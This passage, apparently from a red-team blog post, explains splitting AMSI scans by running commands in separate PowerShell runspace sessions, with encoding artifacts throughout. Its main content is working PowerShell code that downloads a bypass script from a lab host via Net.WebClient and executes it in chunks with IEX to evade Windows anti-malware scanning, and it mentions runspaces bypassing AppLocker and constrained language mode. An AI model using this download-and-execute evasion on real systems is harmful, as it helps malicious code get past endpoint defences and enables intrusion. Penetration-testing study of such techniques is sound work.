 In a penetration testing/red teaming context, Powershell runspace  has been
used to bypass applocker and CLM constrained language mode
https://www.redteam.cafe/red-team/powershell/powershell-custom-runspace

#### Using runspaces to split AMSI scans into multiple sessions

Here we are not really interested in multithreading, but into the
additional control runspaces give us. Our goal is to run individual
commands in their own AMSI session, as if we were running them one by one
in the Powershell GUI.

Below, we create a runspace instance $Runspace, as well two [powershell
instances](
https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.po=
wershell?view=3Dpowershellsdk-7.0.0)
$PowerShell1 and $PowerShell2, and link them to that same $Runspace (which
needs to be Open)

Powershell instances are commands or scripts that are executed against a
Runspace. Once created, we run them individually using the Invoke() method.

```
$Runspace =3D [runspacefactory]::CreateRunspace().Open()

$PowerShell1 =3D [powershell]::Create()
$PowerShell1.runspace =3D $Runspace
$PowerShell1.AddScript({$command1}).Invoke();

$PowerShell2 =3D [powershell]::Create()
$PowerShell2.runspace =3D $Runspace
$PowerShell2.AddScript({$command2}).Invoke();
```

We show that this allows us to run our commands in separate AMSI sessions.
Nice.

 ![image12.png]({{site.baseurl}}/_posts/images/image12.png)



Applying this to Rasta Mouse's script, we can adapt our code a bit to
shorten things. We reuse a single PowerShell instance and [clear its
commands](
https://stackoverflow.com/questions/25156868/remove-command-from-powershell=
-pipeline)
each time.

```
$Runspace =3D [runspacefactory]::CreateRunspace()
$Runspace.Open()

$PowerShell =3D [powershell]::Create()
$PowerShell.runspace =3D $Runspace
$PowerShell.AddScript({$full =3D (New-Object Net.Webclient).downloadstring(=
"
http://192.168.159.131/rastamouse/full.txt")}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(0,591))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(591,60))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(651,126))}).Invoke();
```
